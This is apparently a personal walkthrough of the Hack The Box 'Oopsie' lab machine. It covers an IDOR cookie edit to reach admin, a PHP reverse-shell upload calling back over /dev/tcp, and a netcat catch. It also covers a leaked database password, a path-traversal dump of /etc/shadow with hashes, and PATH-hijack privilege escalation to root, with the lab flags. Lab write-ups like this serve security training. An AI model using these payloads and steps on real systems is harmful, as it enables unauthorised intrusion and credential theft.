

## Oopsie
**PHP, Apache, Insecure Direct Object Reference, Authentication bypass**

**Task 1**  
With what kind of tool can intercept web traffic?  

`proxy`


**Task 2**  
What is the path to the directory on the webserver that returns a login page?  

NMAP
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 19:42 EST
Nmap scan report for 10.129.95.191
Host is up (0.31s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.56 seconds
```

There is a web server on port 80. Let's enumerate the web directories with gobuster

```
kali$ gobuster dir -u $TARGET -w ~/Documents/git/SecLists/Discovery/Web-Content/common.txt
kali$ gobuster dir -u $TARGET -w ~/Documents/git/SecLists/Discovery/Web-Content/Logins.fuzz.txt
```

Unfortunately neither of these yielded results. From looking at the writeup, they mention that Burpsuite can create a sitemap for you. Let's take that idea of a web crawler and use another tool in Kali: `gospider`:

```
kali$ gospider -s http://$TARGET -o site-crawl
[url] - [code-200] - http://10.129.95.191
[javascript] - http://10.129.95.191/cdn-cgi/scripts/5c5dd728/cloudflare-static/email-decode.min.js
[javascript] - http://10.129.95.191/js/min.js
[javascript] - http://10.129.95.191/cdn-cgi/login/script.js
[javascript] - http://10.129.95.191/js/index.j
```

We see the directory `cdn-cgi/login` contains a login script. Visiting the page we are met with a login prompt

**Task 3**  
What can be modified in Firefox to get access to the upload page?  

After logging in as guest on `http://$TARGET/cdn-cgi/login`, we are granted access to a web portal for MegaCorp Automotive - Repair Management System.


Inspecting the cookies, we see the following values. If we can find the user id for the super admin, we may be able to get access to the uploads page. 
```
role=guest
user=2233
```

From here, we notice that the Accounts page is vulnerable to insecure direct object reference - so we can iterate through the account ids in order to find our admin user and obtain their user id. The guest user has an id of `2`. Decrementing that to `1`, we find the details for the admin: user id `34322`. Let's exploit!

```
role=guest
user=34322
```

Success!



**Task 4**  
What is the access ID of the admin user?  

`34322` as per the above


**Task 5**  
On uploading a file, what directory does that file appear in on the server?  

Uploading a random txt file, let's go hunting.
```
kali$ gobuster fuzz -u $TARGET/FUZZ/nmap.txt -c user=34322 -w ~/Documents/git/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
```

Unfortunately the above returned 404 on every option. Let's simplify a bit and just enumerate directories in case there is some web server logic blocking us from accessing the file.

```
kali$ gobuster dir -x php -u $TARGET -w ~/Documents/git/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.95.191
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /home/kali/Documents/git/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.php            (Status: 200) [Size: 10932]
/images               (Status: 301) [Size: 315] [--> http://10.129.95.191/images/]
/themes               (Status: 301) [Size: 315] [--> http://10.129.95.191/themes/]
/uploads              (Status: 301) [Size: 316] [--> http://10.129.95.191/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.129.95.191/css/]
/js                   (Status: 301) [Size: 311] [--> http://10.129.95.191/js/]
Progress: 2150 / 175330 (1.23%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 2160 / 175330 (1.23%)
===============================================================
Finished
===============================================================
```

There appears to be an `uploads` folder sitting behind some authentication. This auth may explain the 404 behaviour from earlier. In any case, when trying to access the file such as `/uploads/nmap.txt`, the server may still try to read or invoke the file. As such, let's try upload a PHP reverse shell in the hopes it gets executed.

```php
<?php
    exec("/bin/bash -c 'bash -i >& /dev/tcp/<IP/1337> 0>&1'");
?>
```

We set up a netcat listener on our machine, and try to request the file from the web server. After trying with my basic payload, it hasn't worked. This is quite possibly due to PHP configuration settings that limit the use of functions like `exec()`. TODO: Confirm this is the case by uploading different payloads (e.g. GET request to attacking machine web server). Anyway, I went back to the drawing board and decided to use something someone smarter than me wrote - something that comes with Kali by default: `/usr/share/webshells/php/php-reverse-shell.php` and... success!

```
kali$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.212] from (UNKNOWN) [10.129.95.191] 47768
Linux oopsie 4.15.0-76-generic #86-Ubuntu SMP Fri Jan 17 17:24:28 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 08:41:34 up 9 min,  0 users,  load average: 0.00, 0.04, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

We have a foothold!


**Task 6**  
What is the file that contains the password that is shared with the robert user?  

The web server directory appears to be at `/var/www/html`. Doing some digging, we find the password at:

```
$ cat /var/www/html/cdn-cgi/login/db.php
<?php
$conn = mysqli_connect('localhost','robert','M3g4C0rpUs3r!','garage');
?>
```

**Task 7**  
What executable is run with the option "-group bugtracker" to identify all files owned by the bugtracker group?  

```bash
$ find / -group bugtracker 2>/dev/null
/usr/bin/bugtracker
```

**Task 8**  
Regardless of which user starts running the bugtracker executable, what's user privileges will use to run?  

```bash
$ ls -l /usr/bin/bugtracker
-rwsr-xr-- 1 root bugtracker 8792 Jan 25  2020 /usr/bin/bugtracker
```

It's using a set bit! This program is owned by root and because of the set bit, it will be executed by the root user


**Task 9**  
What SUID stands for?  

`set owner user ID`.

The `setuid` command means when a program is executed, it will execute as the owner of the file.


**Task 10**  
What is the name of the executable being called in an insecure manner?  

Looking through the bugtracker binary, we see a string that invokes `cat`. Perhaps we can utilise this to dump the /etc/shadow file.

**Task 11**  
Submit user flag  

From our foothold in task 5: 

```
$ cat /home/robert/user.txt
f2c74ee8db7983851ab2a96a44eb7981
```


**Task 12**  
Submit root flag  

In task 6, we found some credentials for the user `robert\M3g4C0rpUs3r!`. Inspecting the groups, we see `robert` has permission to run the bugtracker program. We can use this to escalate:

```bash
$ cat /etc/groups
...
bugtracker:x:1001:robert
```

Let's ssh into the machine as Robert and try to escalate:

```bash
kali$ ssh robert@$TARGET
...

robert@oopsie$ whoami
robert
robert@oopsie$ pwd
/home/robert
robert@oopsie$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------

If you connect to a site filezilla will remember the host, the username and the password (optional). The same is true for the site manager. But if a port other than 21 is used the port is saved in .config/filezilla - but the information from this file isn't downloaded again afterwards.

ProblemType: Bug
DistroRelease: Ubuntu 16.10
Package: filezilla 3.15.0.2-1ubuntu1
Uname: Linux 4.5.0-040500rc7-generic x86_64
ApportVersion: 2.20.1-0ubuntu3
Architecture: amd64
CurrentDesktop: Unity
Date: Sat May 7 16:58:57 2016
EcryptfsInUse: Yes
SourcePackage: filezilla
UpgradeStatus: No upgrade log present (probably fresh install)
```

The use of `cat` in the bugtracker binary seems to look for a file with the prefix `/root/reports/D`. If the validation is not performed correctly, we can try and dump other files. Let's POC it with the user.txt file:

```

robert@oopsie$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../home/robert/user.txt
---------------

f2c74ee8db7983851ab2a96a44eb7981

*** stack smashing detected ***: <unknown> terminated
Aborted (core dumped)
```

Success! The stack smashing is probably due to the fact the filepath input was longer than any expected Bug ID. With this, let's dump the shadow file!

```bash
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
...
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
```

Awesome. Time to whip out John the Ripper

```bash
kali$  john root-shadow.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

... Well, that didn't yield any results sadly. Another idea is to perform command injection when bugtracker asks for an ID. e.g.

```
robert@oopsie:~$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2 | /bin/bash -i
---------------

```

No dice unfortunately. After these few attempts, I made a quick reference to the writeup. Looks like the insecure use of `cat` was that it didn't specify the filepath. This means we could manipulate the path to execute some program called `cat` as root and gain a shell. 


```
robert@oopsie:/tmp$ cd /tmp
robert@oopsie:/tmp$ echo "/bin/bash" > cat
robert@oopsie:/tmp$ chmod a+x cat
robert@oopsie:/tmp$ ls -l
-rwxrwxr-x 1 robert robert   10 Jan 31 09:39 cat
robert@oopsie:/tmp$ which cat
/tmp/cat
robert@oopsie:/tmp$ bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: 2
---------------

root@oopsie:/tmp# whoami
root
root@oopsie:/tmp# less /root/root.txt
af13b0bee69f8a877c3faf667f7beacf
```

Job done!
